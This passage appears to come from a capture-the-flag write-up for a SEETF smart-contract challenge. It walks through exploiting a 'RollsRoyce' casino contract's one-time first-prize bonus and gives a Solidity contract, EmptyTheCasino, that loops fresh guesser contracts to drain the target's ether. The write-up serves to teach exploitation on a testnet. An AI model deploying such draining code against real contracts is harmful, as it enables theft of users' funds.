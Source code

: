 If we deploy the contract we can now give it 3 ether to guess:
![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654468259921/Med5G90l2.png align="center")

And after withdrawing our money we can see that our balance is now 4 ether, and RollsRoyce has also went down from 5 to 4.
![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654468356120/1pd6cDvw3.png align="center")

But remember that the only way to earn was the first prize bonus? As the name suggests, if we repeat our calls we just get an error, since we already claimed it:
![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654468441731/YHjz1ky13.png align="center")

But at this point we have everything we need. We can just deploy 5 of these contract and use each once to withdraw the 5 ether the casino has at the start.

I'm lazy though, so I think it's a good idea to spend more time and effort on automating that! We could do so by using a small and cheap program to deploy the five contracts, but I also like spending my cryptocurrencies on wasting electricity, so let's just implement that in another contract:

```solidity
contract EmptyTheCasino {
    function grabAllMoney(address payable target) public payable {
        require(msg.value >= 3 ether, "To guess you need 3 ether");
        while (target.balance>0) {
            PerfectGuesser guesser = new PerfectGuesser();
            guesser.guessCorrectly{value: 3 ether}(target);
            guesser.withdrawPrizeMoney(target);
            guesser.getBackOurMoney(payable(address(this)), 4 ether);
        }
    }
    receive() external payable {}
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
    function getBackOurMoney(address payable recipient, uint256 amount) public {
        require(
            address(this).balance >= amount,
            "Address: insufficient balance"
        );

        (bool success, ) = recipient.call{value: amount}("");
    }
}
```

It simply does all the steps we were doing manually until the target contract runs out of ether. So now it'll work fine even if the casino was really rich :)
The only step we didn't do previously is getting the money back from the malicious contract - here we need it to not have to spend 3 times as much ether as we're getting back.

We can quickly check on the VM that it works and then deploy on the SEETF testnet.

# Finishing up
